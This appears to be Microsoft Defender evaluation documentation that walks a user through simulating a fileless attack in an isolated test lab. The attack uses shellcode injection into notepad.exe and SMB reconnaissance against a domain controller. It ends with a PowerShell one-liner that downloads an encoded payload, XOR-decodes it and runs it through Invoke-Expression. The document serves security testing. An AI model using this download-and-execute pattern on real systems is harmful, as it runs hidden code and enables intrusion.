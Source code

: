 Here is the result.

:::image type="content" source="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png" alt-text="The evaluation environment using the simulated enterprise Test Lab Guide" lightbox="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png":::

You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection. The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices. This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory. They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution. Such behavior allows them to evade detection and persist on the device.

In this simulation, our sample scenario starts with a PowerShell script. In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network. Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.

:::image type="content" source="../../media/mtp/mtpdiydiagram.png" alt-text="The Fileless PowerShell attack with process injection and SMB reconnaisance attack" lightbox="../../media/mtp/mtpdiydiagram.png":::

During the simulation, the attack injects shellcode into a seemingly innocent process. The scenario requires the use of notepad.exe. We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe. The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed. The script attempts executing reconnaissance queries against the domain controller (DC). Reconnaissance allows an attacker to get information about recent user login information. Once attackers have this information, they can move laterally in the network to get to a specific sensitive account

> [!IMPORTANT]
> For optimum results, follow the attack simulation instructions as closely as possible.

### Run the isolated AD DS domain controller attack simulation

To run the attack scenario simulation:

1. Ensure that your pilot environment includes the isolated AD DS domain controller and Windows device.

2. Sign in to the test device with the test user account.

3. Open a Windows PowerShell window on the test device.

4. Copy the following simulation script:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
